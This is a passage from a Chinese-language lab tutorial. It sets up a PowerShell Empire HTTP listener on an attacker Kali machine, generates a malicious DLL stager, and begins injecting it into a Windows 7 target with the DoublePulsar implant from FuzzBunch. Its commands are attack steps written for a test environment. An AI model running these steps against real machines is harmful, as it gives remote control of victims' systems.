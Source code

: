 ![Empire Listener](/images/empire_listener.png "Empire Listener")

__注意：__ 由于 Empire 的语法改变，原文中的 `set Name Eternal` 之前先要执行 `uselistener http`, "Host" 的 IP 地址是 Attacker Machine 2 (Kali Linux) 的 IP 地址。

* 第二步：创建恶意 DLL

![Malicious DLL](/images/malicious_dll.png "Malicious DLL")

__注意：__ 由于 Empire 的语法改变，原文中的 `usestager dll Eternal` 变成了 `usestager windows/dll Eternel`, 而且 Arch 应根据 Target Machine 的实际架构选择，本次实验使用32系统，故运行 `set Arch x86`.

DLL 默认生成在 `/tmp/launcher.dll`，当然，我们也可以用 `set OutFile [绝对路径]` 指定 DLL 的名字和目录，接下来把该文件复制到运行 FuzzBunch 的 Attacker Machine 1.

### 使用 DoublePulsar 注入恶意 DLL
回到之前的 Attacker Machine 1 Windows 7 环境，在原来的 FuzzBunch 命令行直接输入
```
use DoublePulsar
```